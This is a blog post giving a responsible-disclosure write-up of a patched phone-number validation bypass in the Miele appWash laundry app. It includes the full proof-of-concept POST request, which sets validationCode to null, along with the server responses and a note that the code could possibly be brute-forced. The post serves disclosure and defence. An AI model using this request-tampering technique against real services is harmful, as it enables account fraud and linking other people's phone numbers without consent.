 ```yaml
---
layout: post
title:  "Write-up Miele appWash"
categories: security android
permalink: "/appwash-writeup/"
show_excerpts: True
---
```

Bypassing number validation and completing my first responsible disclosure.

# Background
When entering the wrong number validation code in an app used to pay for laundry, I saw some weird behavior.
As expected it gave an error about the code not matching but it also send same the code again and let me trough and enter the rest of the registration information.
When submitting the information I got the error again but no new SMS.
This prompted me to look into the internet traffic and I found some interesting things.

When I contacted Miele's incident response team they got back to me the following morning and resolved the issue within two weeks!
I have also been added to their [hall of thanks](https://www.miele.com/en/com/cybersecurity-5047.htm#p5052) which is nice.

# Summary  
The number validation can be bypassed without use of the validation code.  
By bypassing the validation someone could link any phone number to their account.

Note:  
The validation code does not seem to expire after wrong attempts so a brute-force attack might also be possible.

# Proof of Concept  
> This doesn't work anymore of course  

For this proof of Concept I used a secondary phone number, and the verification code was: `24062`, but knowing the code is not necessary.

The app submits the data with the following POST request:  
In the request I replaced `"validationCode":"12345"` with `"validationCode":null`

``` c
POST /api-rest/account HTTP/1.1
language: en
platform: appwash
Content-Type: application/json
Content-Length: 686
Host: www.involtum-services.com
Connection: close

{"salutations":"m",
"businessName":null,
"firstName":"X",
"lastName":"X",
"email":"placeholder@email.com",
"street":"X",
"zip":"X",
"city":"X",
"country":"BE",
"invoice_street":null,
"invoice_street2":null,
"invoice_zip":null,
"emailNotification":true,
"invoice_city":null,
"invoice_country":null,
"invoice_language":"en",
"language":"en","iban":"",
"bic":"",
"chamberOfCommerce":null,
"automatic_collection":false,
"account_prepaid":true,
"userName":"placeholder@email.com",
"validationCode":null,
"password":"password",
"mobile":[{
          "mobile":"+31622425986",
          "notification":false,
          "locked":false
         }],
"pushNotification":true,
"locationExternalId":null,
"tcAcceptedAnswer":"ACCEPTED",
"tcVersion":"1",
"currency":"EUR"}
```

# Observed Result  
The Account is created successfully and the server reacted with this result:

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:41:31 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 430
Connection: close

{
  "errorCode":0,
  "errorDescription":"",
  "token_expire_ts":0,
  "serverTime":1595439691,
  "errorDetailMessage":"",
  "activeSessions":[],
  "login":{"email":"placeholder@email.com",
           "password":null,
           "username":"placeholder@email.com",
           "externalId":"73252001",
           "language":"EN",
           "token":"2ea4ddd8:17352a3ed54:-6d70",
           "offlineAllowed":true,
           "manageOthers":true,
           "startMultiple":true,
           "startForOthers":false,
           "fcmToken":null,
           "appOS":null,
           "appVersion":null
         }
}
```
I could also successfully log into the app!  
![image could not be loaded](/assets/appwash_screenshot.png){: style="padding-top:16px; padding-bottom:16px"}

# Expected Result  
A server response like the one when you enter a wrong validation code, or another error.

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:26:54 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 235
Connection: close

{
  "errorCode":41,
  "errorDescription":"This validation code doesn't seem to be correct. Please check the validation code. (code 41)",
  "token_expire_ts":0,
  "serverTime":1595438814,
  "errorDetailMessage":null,
  "activeSessions":null,
  "login":null
}

```

# Possible mitigation
I suspect implementing server-side type checking would resolve this particular issue.   
However, this would not help against a possible brute-force attack.
